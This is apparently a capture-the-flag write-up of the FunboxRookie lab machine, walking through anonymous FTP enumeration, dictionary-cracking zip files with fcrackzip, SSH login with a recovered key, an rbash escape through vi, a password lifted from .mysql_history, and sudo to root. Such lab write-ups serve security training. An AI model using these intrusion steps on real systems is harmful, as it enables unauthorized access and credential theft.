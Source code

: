 ```yaml
---
title: "Proving grounds Play: FunboxRookie"
layout: post
date: 2023-09-14 01:00
categories: writeup
---
```


Proving grounds Play - FunboxRookie CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
|_-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9467dfe0c4da97e2d77740fa2517251 (RSA)
|   256 15004667809b40123a0c6607db1d1847 (ECDSA)
|_  256 75ba6695bb0f16de7e7ea17b273bb058 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 1 disallowed entry 
|_/logs/
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/FunboxRookie/web.png)

## FTP PORT: 21

```sh
lftp> ls
229 Entering Extended Passive Mode (|||63774|)
150 Opening ASCII mode data connection for file list
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
-r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
-rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
226 Transfer complete
```

Download all files and extract the files, which are password protected.

### Cracking password

```sh
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip
```

Use the above tool to crack the password, an alternative way to crack the password is to use `zip2john` tool to create hash for the zip files and then later use john to crack the hashes.

After trying to crack passwords for all the files, the process resulted in failure except for files `tom.zip` and `catherine.zip`.

![img](/assets/images/CTF/Proving_Grounds/FunboxRookie/crack.png)

Extract the zip files using the passwords and use the `id_rsa` key to login to the remote machine using SSH.

The user `tom` has restricted shell `rbash`. Use the below technique to bypass the restriction.

```sh
vi
:set shell=/bin/bash
:shell
```

The user has a `.mysql_history` file in the machine, which we can check for passwords.

```sh
tom@funbox2:~$ ls -al
total 48
drwxr-xr-x 5 tom  tom  4096 Sep 14 01:51 .
drwxr-xr-x 3 root root 4096 Jul 25  2020 ..
-rw------- 1 tom  tom    53 Sep 14 01:49 .bash_history
-rw-r--r-- 1 tom  tom   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 tom  tom  3771 Apr  4  2018 .bashrc
drwx------ 2 tom  tom  4096 Sep 14 01:48 .cache
drwx------ 3 tom  tom  4096 Jul 25  2020 .gnupg
-rw------- 1 tom  tom  1675 Jul 25  2020 id_rsa
-rw-r--r-- 1 tom  tom    33 Sep 14 01:31 local.txt
-rw------- 1 tom  tom   295 Jul 25  2020 .mysql_history
-rw-r--r-- 1 tom  tom   807 Apr  4  2018 .profile
drwx------ 2 tom  tom  4096 Sep 14 01:52 .ssh
```

The file has the password for user tom.

```text
insert\040into\040support\040(tom,\040█████████);
```

## Privilege Escalation

After checking the permissions for the user tom he has ALL the permissions in the machine which allows us to get root shell using `sudo su` and user tom password.

```sh
User tom may run the following commands on funbox2:
    (ALL : ALL) ALL
```

![img](/assets/images/CTF/Proving_Grounds/FunboxRookie/root.png)

**Root obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).